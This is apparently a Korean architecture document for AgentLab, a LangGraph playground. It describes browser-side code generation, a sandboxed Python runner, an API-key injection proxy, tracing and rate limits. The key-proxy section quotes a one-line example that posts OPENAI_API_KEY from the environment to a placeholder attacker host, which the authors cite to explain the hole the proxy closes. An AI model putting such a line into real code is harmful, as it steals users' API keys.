





# 아키텍처

AgentLab은 세 부분으로 나뉩니다.

- **브라우저 쪽 그래프 도구 (Next.js):** 그래프 편집, 구조 분석, 코드 생성이 모두 여기서 일어납니다. 서버 없이도 동작합니다.
- **실행 서버 (FastAPI, Cloud Run):** 사용자가 쓴 Python 코드를 격리된 프로세스에서 실행하고, 결과와 실행 트레이스를 스트리밍합니다.
- **Supabase:** 로그인, 프로젝트 저장, 공유를 맡습니다. 접근 권한은 행 단위 보안(RLS)이 정합니다.

## 1. 그래프 → 코드 (브라우저)

| 단계 | 파일 | 하는 일 |
|---|---|---|
| 모델 | `frontend/src/lib/playground/types.ts` | React Flow와 독립적인 순수 그래프 타입 (`Graph`, `GNode`, `GEdge`) |
| 분석 | `frontend/src/lib/playground/analyze.ts` | 실행 전에 오류(빨강)와 위험(노랑)을 찾습니다. START/END, 도달 불가, dead end, 무조건 자기 루프, 종료 조건 없는 사이클, 식별자·예약어·중복 이름, 라우터·평가자·슈퍼바이저 규칙, Checkpointer 필요 여부, 병목(직렬 LLM 호출 수), 민감 도구 승인 여부 등 |
| 생성 | `frontend/src/lib/playground/codegen/` | 결정적 템플릿으로 LangGraph 1.x 프로젝트를 만듭니다. `context.ts`(인접 리스트·사용 도구), `nodes.ts`(노드별 함수), `routing.ts`(조건부 엣지), `graph.ts`(StateGraph 조립), `support.ts`(State·설정·도구), `project.ts`(main.py·README) |
| 정규화 | `normalizeGraph()` | 좌표와 임의 id를 지운 구조 시그니처입니다. 캐시 키와 "구조가 바뀌었는가" 판단에 씁니다 |

**결정적 생성기를 기본으로 둔 이유:** 같은 그래프는 항상 같은 코드가 됩니다. 그래서 스냅샷 테스트로 출력을 고정할 수 있고, 코드 생성에 비용이나 지연이 들지 않습니다. 더 다듬은 코드가 필요하면 아래 5번 LLM 고도화를 선택적으로 씁니다.

**코드 주입 방지:** 노드 이름은 Python 식별자 규칙과 예약어 검사를 통과해야 생성 단계로 넘어갑니다. 프롬프트 같은 자유 텍스트는 항상 `JSON.stringify`로 문자열 리터럴이 됩니다. 테스트: `codegen.test.ts`, `analyze.test.ts`.

## 2. 샌드박스 실행 (서버)

`backend/app/runner.py`는 공개 서버에서 임의의 Python을 실행하므로 여러 겹으로 방어합니다.

| 방어 | 구현 |
|---|---|
| 파일 시스템 | 실행마다 새 임시 디렉터리를 쓰고 끝나면 삭제합니다. `../`로 빠져나가는 경로는 거부합니다 |
| 환경변수 | 최소 집합만 넘깁니다. 서버 비밀값(Supabase 키 등)은 넘기지 않습니다 |
| 자원 | `RLIMIT_CPU`, `RLIMIT_AS`(기본 3GB 가상 메모리), `RLIMIT_FSIZE`, `RLIMIT_NPROC`를 적용합니다 |
| 시간 | 실행 상한(기본 최대 90초)을 넘기면 `setsid`로 만든 프로세스 그룹 전체를 `SIGKILL`합니다 |
| 출력 | 출력량 상한(20만 자)을 넘으면 잘라냅니다 |
| 동시성 | 세마포어로 인스턴스당 동시 실행 수를 제한합니다 |
| 컨테이너 | non-root 사용자로 돌고, `--no-dev` 의존성만 설치합니다 |

**메모리 상한 버그 (수정됨):** `RLIMIT_AS`는 실제 사용량이 아니라 *가상 주소 공간*을 셉니다. 스레드 하나가 스택용으로 8MB를 예약하기 때문에, 처음 정했던 1GB에서는 LangGraph 스레드 풀이 스레드를 만들지 못해 멀티 에이전트 강의 5개가 실패했습니다. CI가 강의 코드 162개를 모두 실행하도록 만든 뒤에야 드러난 문제입니다. 기본값을 3GB로 올렸고, 회귀 테스트(`test_default_limits_allow_many_threads`)를 추가했습니다. 이 테스트는 1GB에서 실패하고 3GB에서 통과하는 것을 확인했습니다.

## 3. API 키 보호: 키 주입 프록시

방문자는 각자 자기 OpenAI 키를 씁니다(BYOK). 처음에는 키를 샌드박스 환경변수 `OPENAI_API_KEY`로 그대로 넘겼습니다. 그런데 공유 프로젝트에는 작성자가 고친 코드도 들어 있습니다. 그래서 악의적인 작성자가 `requests.post("https://공격자", data=os.environ["OPENAI_API_KEY"])` 한 줄을 넣어 두면, 링크를 열고 ▶ 실행을 누른 사람의 키가 넘어가는 구멍이 있었습니다.

- `backend/app/keyproxy.py`: 실행마다 무작위 토큰을 발급하고, 실행이 끝나면 즉시 폐기합니다. `127.0.0.1`에만 바인딩해서 외부에서는 접근할 수 없습니다.
- **허용하는 엔드포인트:** `chat/completions`, `responses`, `embeddings`, `completions`, `moderations`, `models`만 전달합니다. 파일, 파인튜닝, 조직 관리 API는 막습니다.
- uvicorn 워커가 여러 개여도 문제없습니다. 실행을 처리한 워커의 프록시 주소를 그 실행에 넘기므로 토큰이 다른 워커와 어긋나지 않습니다.
- **막는 것과 막지 못하는 것:** 키 문자열 유출은 막습니다. 하지만 실행 중인 코드가 그 키로 허용된 API를 호출해 비용을 쓰는 것은 막을 수 없습니다. 그래서 두 가지를 함께 둡니다.
  - 설정 창에서 **사용 한도를 건 전용 프로젝트 키**를 쓰라고 안내합니다.
  - 공유 프로젝트에 작성자가 쓴 코드(수정한 파일이나 Function 노드 코드)가 있으면, 실행 전에 확인 창을 띄웁니다. 기본 선택은 Mock 모드입니다.
- 테스트: `backend/tests/test_keyproxy.py`. 가짜 OpenAI 서버를 띄워 다음을 확인합니다.
  - 샌드박스에서는 진짜 키가 보이지 않는다
  - 업스트림에는 진짜 키가 전달된다
  - 허용하지 않은 경로는 403, 모르는 토큰은 401이다
  - 실행이 끝나면 토큰이 폐기된다

## 4. 실행 트레이스

사용자 코드를 한 줄도 고치지 않고 LangGraph 실행을 노드 단위로 관찰합니다.

- **수집 (`backend/sandbox/agentlab_trace.py`):** LangChain 전역 configure hook에 트레이서를 등록합니다. 이렇게 하면 모든 `invoke`/`stream`에 자동으로 붙습니다. 수집하는 정보는 다음과 같습니다.
  - 그래프와 노드(입력 State, 반환한 업데이트)
  - LLM(메시지, 바인딩된 도구, 응답, `tool_calls`, 토큰)
  - 도구(인자, 결과)
  - 리트리버(쿼리, 문서)
- **노이즈 제거:** LangGraph 내부 실행 단위(`langsmith:hidden` 태그)는 숨기고, 그 자식은 가장 가까운 보이는 조상에 다시 붙입니다.
- **stdout과 분리:** 이벤트는 사용자 출력과 섞이지 않도록 별도 파이프(fd)로 보냅니다. 사용자 코드가 `print`로 무엇을 찍든 트레이스가 깨지지 않습니다.
- **크기 제한:** 긴 문자열과 큰 컬렉션은 잘라냅니다. 이벤트 하나는 256KB, 실행 하나는 4,000개 이벤트까지입니다.
- **화면 (`frontend/src/lib/trace.ts`, `components/ide/trace-panel.tsx`):** 이벤트를 트리로 묶고, 요약(시간, 호출 수, 토큰)과 상세(State, 메시지, tool_calls)를 보여 줍니다. 플레이그라운드 캔버스에서는 실행 중인 노드를 강조하고 실행 횟수를 표시합니다.
- 테스트: `test_trace.py`(트리 구조, 숨김 규칙, State·토큰), `trace.test.ts`(트리 조립, 중단 처리, 토큰 합계).

## 5. LLM 고도화와 캐시

- LLM이 만든 코드를 그대로 믿지 않습니다. 정적 검사(ruff의 "실행하면 터지는" 규칙)와 Mock 모드 실제 실행을 **둘 다** 통과해야 사용자에게 보여 줍니다.
- 한 번 검증을 통과한 구조는 구조 해시로 캐시됩니다. 그 뒤로는 **모든 사용자가 LLM 호출 없이** 바로 받습니다.

## 6. 인증과 한도

| 계층 | 구현 |
|---|---|
| 로그인 | Supabase Google OAuth. 백엔드는 `Authorization: Bearer <access token>`을 Supabase `/auth/v1/user`로 확인하고, 결과를 5분 동안 캐시합니다 |
| 프로젝트 권한 | Postgres RLS. 주인은 모든 작업이 가능하고, 다른 사람은 공개된 프로젝트를 읽기만 할 수 있습니다(`supabase/schema.sql`) |
| 분당 한도 | IP 기준입니다. `X-Forwarded-For`의 **맨 끝** 값(앞단 프록시가 덧붙인 값)을 씁니다. 맨 앞 값은 클라이언트가 조작할 수 있습니다 |
| 하루 한도 | 사용자 기준입니다(실행 200 / 검증 100 / 고도화 20) |
| 비용 상한 | Cloud Run 최대 인스턴스 1, 최소 0 |

## 7. 품질 체계

| 범위 | 도구 | 규모 |
|---|---|---|
| 백엔드 | pytest | 54개: 샌드박스, 키 프록시, 트레이서, 인증·한도, API, 생성된 패턴 12종 실행 |
| 프론트엔드 | vitest | 73개: 구조 분석기, 코드 생성기 스냅샷, 트레이스 모델, 캔버스 뷰 모델 |
| 콘텐츠 | `check_content.py` | 강의 43개의 예제와 정답 162개를 모두 실행 |
| 정적 검사 | ruff, ESLint, tsc | 경고 0 |
| CI | GitHub Actions | 위 항목 전부를 push할 때마다 실행 |
| 평가 | `scripts/eval_*` | [EVAL.md](EVAL.md) |

프론트엔드 코드 생성기와 백엔드 실행 환경은 언어가 다릅니다. 그래서 둘은 `backend/tests/fixtures/patterns.json`으로 연결됩니다. vitest는 이 fixture가 현재 생성기 출력과 같은지 검사하고, pytest는 이 fixture를 실제로 실행합니다. 이렇게 하면 생성기를 바꿨는데 fixture를 갱신하지 않은 경우를 CI가 잡아냅니다.
